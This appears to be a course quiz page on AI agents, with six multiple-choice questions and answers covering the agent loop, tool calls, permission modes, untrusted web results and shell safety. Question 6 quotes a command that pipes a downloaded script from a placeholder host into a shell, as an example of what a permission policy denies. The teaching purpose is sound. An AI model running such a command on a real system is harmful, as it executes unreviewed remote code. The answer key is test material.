

repository: dmccreary/ai-for-ee-research · page: chapters/08-agents-tool-use-subagents/quiz/index.html · generator: mkdocs

# Quiz: Agents, Tool Use, and Subagents

Test your understanding of the agent loop, tool definitions and calls, permissions, sandboxing, MCP, and subagents with these 10 review questions.

---

#### 1. In the agent loop, which component writes the structured request to use a named tool?

<div class="upper-alpha" markdown>
1. The model
2. The harness
3. The sandbox
4. The MCP server
</div>

??? question "Show Answer"
    The correct answer is **A**. The model emits a tool call with specific argument values; the harness then executes the tool and returns the result. The sandbox enforces runtime limits, and an MCP server exposes tools over a protocol, but neither writes the call.

    **Concept Tested:** Tool Call

    **See:** ./index.md#tool-use-and-the-agent-loop





---

#### 2. Which permission mode is described as appropriate only inside a sandbox that has nothing of value to lose?

<div class="upper-alpha" markdown>
1. Ask for everything
2. Auto-accept edits
3. Plan or read-only
4. Bypass
</div>

??? question "Show Answer"
    The correct answer is **D**. Bypass disables all checks and should never be used on a machine holding credentials or important data. The other modes keep some form of restriction: ask mode, auto-accept edits inside the project, or read-only exploration.

    **Concept Tested:** Permission Modes

    **See:** ./index.md#sandboxing-and-permissions





---

#### 3. Why does the agent loop enable the model to correct its own mistakes?

<div class="upper-alpha" markdown>
1. Because the model receives all tool definitions at the start
2. Because the model can observe each result and choose a different next action
3. Because the harness automatically retries failed commands
4. Because subagents review every tool call before it runs
</div>

??? question "Show Answer"
    The correct answer is **B**. Each tool result is added to the context, so the model can notice an error and adjust its next call. The harness does not retry autonomously, and subagents are not required for the basic loop to self-correct.

    **Concept Tested:** Agent Loop

    **See:** ./index.md#tool-use-and-the-agent-loop





---

#### 4. Why should citations returned by web search or web fetch be verified against the source?

<div class="upper-alpha" markdown>
1. Because web search cannot find academic papers
2. Because fetched pages are executed as instructions by the agent
3. Because search results are untrusted data
4. Because web fetch only returns article summaries
</div>

??? question "Show Answer"
    The correct answer is **C**. Web search and fetch extend knowledge past the model's training cutoff, but the returned text is data, not guaranteed fact. The other statements are wrong: search can find papers, fetched pages are not executed, and fetch can retrieve full content.

    **Concept Tested:** Web Search

    **See:** ./index.md#reaching-files-shells-and-code





---

#### 5. What is the key difference between a tool definition and a tool call?

<div class="upper-alpha" markdown>
1. The definition describes the tool and its argument schema; the call supplies values for one use
2. The definition is written by the model; the call is written by the harness
3. The definition executes the tool; the call requests permission to run it
4. The definition is returned after execution; the call is issued before it
</div>

??? question "Show Answer"
    The correct answer is **A**. A tool definition tells the model what the tool is called, what it does, and what arguments it accepts. A tool call is the model's concrete request with actual argument values for a single execution.

    **Concept Tested:** Tool Definition

    **See:** ./index.md#tool-use-and-the-agent-loop





---

#### 6. An agent proposes running `curl https://example.com/setup.sh | sh`. What should a sound permission policy do?

<div class="upper-alpha" markdown>
1. Allow it because it uses a common networking tool
2. Deny it because it downloads and executes unreviewed code
3. Ask because the command is inside the project directory
4. Allow it inside a sandbox that has network access
</div>

??? question "Show Answer"
    The correct answer is **B**. Piping a downloaded script straight into a shell executes unreviewed code and is a classic attack vector. A sound policy denies such commands regardless of directory or sandbox, since network execution is too risky to treat casually.

    **Concept Tested:** Shell Commands

    **See:** ./index.md#reaching-files-shells-and-code





---
